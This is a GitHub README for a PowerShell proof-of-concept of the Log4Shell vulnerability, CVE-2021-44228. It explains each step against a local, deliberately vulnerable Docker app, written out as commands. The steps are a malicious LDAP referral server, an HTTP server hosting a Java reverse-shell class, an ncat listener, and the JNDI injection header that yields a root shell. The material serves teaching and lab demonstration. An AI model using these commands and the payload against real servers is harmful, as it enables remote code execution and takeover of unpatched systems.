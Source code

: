 # Log4PowerShell (CVE-2021-44228) Proof of Concept

A Proof-Of-Concept for the CVE-2021-44228 vulnerability written in PowerShell.

This PowerShell script starts multiple processes (netcat listener, malicious LDAP and HTTP server, and a vulnerable web app hosted from a Docker image).
For educational purposes, this script runs through the entire exploit chain, dynamically creating the Java exploit class and ultimately producing a reverse shell on the web server.
The poisoned header sent to the vulnerable web application also triggers the information disclosure aspect of the vulnerability. The variable (Java version) can be observed in the LDAP server logs.

## Proof of Concept

The script Log4jPoC.ps1 automates the exploit locally on a Windows machine.

### Demo

https://user-images.githubusercontent.com/6628565/147061440-9e3dd81f-cbef-48a5-af93-fd36203a45e4.mp4

## Requirements

The requirement for Maven may be removed in the future if the pre-compiled LDAP server is included in the project.
For transparency I cloned the repo and built it from source.

- Docker for Desktop
- Java 8
- Maven
- Python3
- Internet connectivity (docker image pull, git clone)

## Usage

`.\Log4ShellPoC.ps1`

If all the dependencies are met, this should be it. The script will start spinning up console windows with everything you need to carry out the attack. Keep your eye on the ncat.exe to see the reverse shell connect.

## About this script

### Dependency check

The script will attempt to check the dependencies.
If all dependencies are met it will start building the exploit payload (Java reverse shell).
Once the payload is created we will launch the Docker container:

`ghcr.io/christophetd/log4shell-vulnerable-app`

This project can be found here: https://github.com/christophetd/log4shell-vulnerable-app

Thanks!

### LDAP Server

Once the server is up we have to move onto the LDAP server.
I am using marshalsec's object deserialization vulnerability project which can be found here:

https://github.com/mbechler/marshalsec

Thank you!

We really only need the LDAPRefServer.java file but ive included the entire project in this iteration.
The only modification needed is the listening port:

`(Get-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java).Replace('int port = 1389;' , "int port = $ldapPort;") | Set-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java -ErrorAction Stop`

A simple find and replace works.

Lets build the project with Maven 

`mvn clean package -DskipTests`

Next we run project and run it with some arguments:

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://$lhost:$httpFilePort/exploit/#Exploit`

The last bit configures the callback URI that will be passed to the vulnerable server when it contacts this server using the JDNI API. The LDAPRefServer.java has some string manipulation that will append `.class` to the end of Exploit.

In the end the resulting URI will look something like this:
`http://{IP}}:{PORT}}/exploit/Exploit.class`

### Netcat Listener

Once we have the malicious LDAP server up and running we move on to the netcat listener.
This is simply: `.\tools\ncat.exe -lvn {PORT}}`

Netcat will allow us to receive the TCP connection from the vulnerable server and interact with it.

### HTTP Server

Next, we need HTTP server to server up the payload we created earlier.

`python -m http.server $httpFilePort`

When the vulnerable servers follows the URI provided by the LDAP server it will download Exploit.class and execute it.
This should establish a connection with the netcat listener and give us access to the server as the user who is running the web app. In this case root.. Always run your applications as a user with the lowest permissions possible.

### Web Request

Now we have to acutally send a request to the vulnerable web server to kick everything off. In this exapmple it will be a GET request with an 'X=Api-Version' header containg the following string `${jndi:ldap://{IP}}:{PORT}}/${java:version}}`
For this example the header is doing two things.
Firstly, `${jndi:ldap://{IP}}:{PORT}}` tells the Log4j service to connect to a LDAP server.
Secondly, `/${java:version}` will cause the environment variable containing the Java version to be included in the request to the LDAP server. This can be useful for troubleshooting an payload that is not working. If the payload is compiled with a version of Java higher than what is installed on the server it will not work.

## Conclusion

At this point everything should have been spun up and you should see a shell in the netcat window.
Go ahead and type `whoami` to see the effective username of the current user. In this case root!
Notice the log messages displayed in the docker container. You should see messages indicating a connection to a remote server, the netcat listener.

Hopefully this helps clarify how this vulnerability is exploited.


## Attribution

### Christophetd - log4shell-vulnerable-app Docker Image

https://github.com/christophetd/log4shell-vulnerable-app

### Marshalsec object deserialization vulnerability project

https://github.com/mbechler/marshalsec

### Log4Shell Image

Lunasec, CC BY-SA 4.0 <https://creativecommons.org/licenses/by-sa/4.0>, via Wikimedia Commons
